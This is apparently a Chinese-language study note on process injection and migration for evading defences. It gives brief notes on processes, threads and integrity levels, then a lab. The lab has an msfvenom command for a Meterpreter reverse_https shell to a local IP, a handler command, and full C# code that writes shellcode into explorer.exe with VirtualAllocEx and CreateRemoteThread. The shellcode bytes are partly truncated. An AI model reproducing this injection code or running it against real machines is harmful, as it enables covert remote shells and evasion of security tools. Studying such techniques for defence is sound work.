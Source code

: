 ```yaml
---
title: 进程注入与迁移
categories:
- evasion
tags:
- evasion
---
```


[进程注入与迁移](https://www.bilibili.com/video/BV1UA411K7C8)

## 进程和线程的区别
https://segmentfault.com/a/1190000039297639

进程，线程
（公司）（人）
卖食品、饮料、医疗、交通、房地产公司
进程里有多个线程，就像一个公司里有多个员工

直接反弹shell的缺点：
1. 
2. 
进程注入的目的

## 进程的权限控制Integrity Level
https://blog.csdn.net/vlily/article/details/47338327

## plist查看进程中的线程
https://docs.microsoft.com/en-us/sysinternals/downloads/pslist

## 为什么直接杀死线程是不好的
https://blog.csdn.net/shenya1314/article/details/59057361

## 小实验
c sharp + shellcode编译，注入进程explorer.exe

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.123.138 lport=2333 -f csharp

handler -H 192.168.123.138 -P 2333 -p windows/x64/meterpreter/reverse_https

"C:\Program Files (x86)\Microsoft Visual Studio\2019\Enterprise\MSBuild\Current\Bin\Roslyn\csc.exe" /unsafe /platform:x64 1.cs

```
using System;
using System.Runtime.InteropServices;
namespace Inject
{
	class Program
	{
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
		static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
		processId);
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
		static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
		dwSize, uint flAllocationType, uint flProtect);
		[DllImport("kernel32.dll")]
		static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
		byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
		[DllImport("kernel32.dll")]
		static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
		lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
		dwCreationFlags, IntPtr lpThreadId);
		static void Main(string[] args)
		{
			IntPtr hProcess = OpenProcess(0x001F0FFF, false, 1668);
			IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
			byte[] buf = new byte[756] {
===replace this===
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x65,0x48,0x8b,0x52,0,0x01,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5
===replace this===
			};
			IntPtr outSize;
			WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
			IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr,IntPtr.Zero, 0, IntPtr.Zero);
		}
	}
}
```